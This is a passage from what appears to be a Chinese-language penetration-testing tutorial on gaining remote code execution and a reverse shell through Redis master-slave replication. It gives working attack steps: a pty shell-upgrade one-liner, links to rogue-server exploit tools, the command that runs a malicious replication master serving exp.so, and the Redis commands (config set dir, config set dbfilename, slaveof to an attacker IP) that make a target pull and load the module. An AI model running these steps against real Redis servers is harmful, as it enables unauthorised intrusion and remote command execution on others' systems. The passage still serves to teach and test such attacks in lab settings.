 ```c
python3 -c &amp;quot;import pty;pty.spawn('/bin/bash')&amp;quot;
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-25e599e1e6f0a3a98945ac05303aa6a9cd010480.png)

0x07 本地Redis主从复制RCE反弹shell
--------------------------

**但是 如果目标机器仅仅允许本地进行登录的时候**

这个时候，我们可以通过配合其他漏洞，从目标本地登录 redis。然后手动执行脚本内写死的一些命令

将靶机 Redis作为从机，将攻击机器设置为主机

然后攻击机器会自动将一些恶意so文件同步给目标机器（从机），从而来实现对目标机器的远程命令执行。

还是用这两个脚本

```php
https://github.com/n0b0dyCN/redis-rogue-server//未授权https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server//Redis有密码
```

但是要说一下

**将 redis-rogue-server的exp.so文件复制到 Awsome文件夹中使用，因为exp.so带 system模块**

开启监听

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4a94c198c0ecd681856d9cdca60dcf936b251ef7.png)

攻击机开启主服务器

```c
python3 redis_rogue_server.py -v -path exp.so
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d6941550568cce629cb60a8033662644014e7e7f.png)

然后去靶机上

查看模块 可以看到是没有的可用的模块

```c
module list
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5f695bcc63d3489c8493f176488d6990fc12d210.png)

```c
config set dir /tmp//一般tmp目录都有写权限，所以选择这个目录写入config set dbfilename exp.so//设置导出文件的名字 这里就是创建一个空文件slaveof 192.168.175.161 15000//进行主从同步，将恶意so文件写入到tmp文件//端口可以自定义
```

然后就可以看到攻击机这边开始了同步

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9951d755627ce8c17c318b520995eec8848a1732.png)

关闭主从同步
